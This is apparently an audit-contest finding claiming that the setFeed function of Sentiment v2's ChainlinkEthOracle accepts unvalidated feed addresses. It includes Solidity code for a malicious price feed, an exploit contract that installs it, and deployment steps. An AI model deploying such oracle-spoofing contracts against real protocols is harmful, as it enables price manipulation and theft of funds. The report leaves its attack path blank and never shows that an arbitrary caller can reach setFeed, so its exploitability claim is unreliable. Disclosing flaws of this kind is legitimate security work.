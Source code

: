 Polished White Coyote

High

# Untrusted Feed Address at setFeed function for ChainlinkEthOracle contract

### Summary

Link: https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/main/protocol-v2/src/oracle/ChainlinkEthOracle.sol#L79C14-L79C21

In the setFeed function, the contract assumes that the provided feed address is valid and correctly implements the IAggegregatorV3 interface. If a malicious or incorrect address is provided, it could lead to unexpected behavior or vulnerabilities.

### Root Cause

Not validating external contract

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

By setting the malicious feed, the ChainlinkEthOracle will now use the malicious price data provided by the feed. This could lead to incorrect pricing, which might be exploited for various purposes depending on how the oracle data is used in your system.

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IAggegregatorV3 {
    function latestRoundData()
        external
        view
        returns (uint80 roundId, int256 answer, uint256 startedAt, uint256 updatedAt, uint80 answeredInRound);

    function decimals() external view returns (uint256);
}

contract MaliciousChainlinkFeed is IAggegregatorV3 {
    int256 public maliciousPrice;
    uint256 public timestamp;

    constructor(int256 _maliciousPrice) {
        maliciousPrice = _maliciousPrice;
        timestamp = block.timestamp;
    }

    function latestRoundData()
        external
        view
        override
        returns (uint80 roundId, int256 answer, uint256 startedAt, uint256 updatedAt, uint80 answeredInRound)
    {
        return (0, maliciousPrice, timestamp, timestamp, 0);
    }

    function decimals() external pure override returns (uint256) {
        return 18; // Must return 18 decimals as per contract requirements
    }

    // Function to update malicious price (for testing purposes)
    function setMaliciousPrice(int256 _maliciousPrice) external {
        maliciousPrice = _maliciousPrice;
    }
}
```
**Exploit Script**
This script sets the malicious feed contract for an asset and then queries the ChainlinkEthOracle to demonstrate the effect of the exploit.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/extensions/IERC20Metadata.sol";

contract Exploit {
    address public oracleAddress;
    address public maliciousFeedAddress;
    address public owner;

    constructor(address _oracleAddress, address _maliciousFeedAddress) {
        oracleAddress = _oracleAddress;
        maliciousFeedAddress = _maliciousFeedAddress;
        owner = msg.sender;
    }

    function exploit(address asset, uint256 stalePriceThreshold) external {
        // Interact with the ChainlinkEthOracle to set the malicious feed
        (bool success, ) = oracleAddress.call(
            abi.encodeWithSignature(
                "setFeed(address,address,uint256)",
                asset,
                maliciousFeedAddress,
                stalePriceThreshold
            )
        );
        require(success, "Failed to set feed");
        
        // Now the oracle contract uses the malicious feed
    }

    function updateMaliciousPrice(int256 newPrice) external {
        require(msg.sender == owner, "Only owner can update price");
        
        // Update the price in the malicious feed contract
        (bool success, ) = maliciousFeedAddress.call(
            abi.encodeWithSignature("setMaliciousPrice(int256)", newPrice)
        );
        require(success, "Failed to update malicious price");
    }
}
```
**Exploit Execution**
Deploy the MaliciousChainlinkFeed Contract: Deploy the malicious feed contract with an arbitrary price.
Deploy the Exploit Contract: Provide addresses for the ChainlinkEthOracle and the malicious feed contract.
Execute the exploit Function: Call the exploit function with the asset address and a stale price threshold. This will set the malicious feed for the asset in the ChainlinkEthOracle.
Update Malicious Price: Optionally, update the malicious price in the malicious feed contract using the updateMaliciousPrice function.

### Mitigation

Feed Address Validation: Ensure that the provided feed address is validated before being set.
Audit and Review: Regularly audit and review the implementation of oracles and ensure that they interact correctly with external feeds.